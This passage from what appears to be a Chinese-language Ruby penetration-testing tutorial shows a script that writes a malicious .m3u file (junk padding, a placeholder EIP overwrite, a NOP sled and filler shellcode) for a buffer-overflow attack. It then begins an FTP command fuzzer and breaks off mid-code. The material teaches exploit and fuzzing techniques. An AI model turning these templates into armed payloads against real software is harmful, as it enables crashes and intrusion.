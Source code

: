 ```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}" 
```

执行它

```
ruby m3u_exploit.rb song1.m3u 
```

* * *

# 模糊器

# 模糊器

模糊器通常用于一般或精确的应用程序功能。在这部分中，我们将展示如何使用 ruby 模糊最常见的服务。记住，模糊是一种**打击事物的艺术**，它不仅仅是关于工具。

**模糊器类型**

+   突变

+   元数据/文件格式

## 突变

### FTP 模糊器

模糊 FTP 服务的一般思路是测试所有命令缓冲区大小。然而，并非所有情况都是一样的，例如，测试用户名和密码缓冲区。此外，相同的技术可以应用于许多服务，甚至定制服务。

```
#!/bin/ruby
# KING SABRI | @KINGSABRI
# Simple FTP COMMNDS Fuzzer
#
require 'socket'

class String
  def red; colorize(self, "\e[31m"); end
  def green; colorize(self, "\e[32m"); end
  def colorize(text, color_code);  "#{color_code}#{text}\e[0m" end
end

mark_Red   = "[+]".red
mark_Green = "[+]".green

host = ARGV[0] || "127.0.0.1"
port = ARGV[1] || 21

# List of FTP protocol commands
cmds = ["MKD","ACCL","TOP","CWD","STOR","STAT","LIST","RETR","NLST","LS","DELE","RSET","NOOP","UIDL","USER","APPE"]

```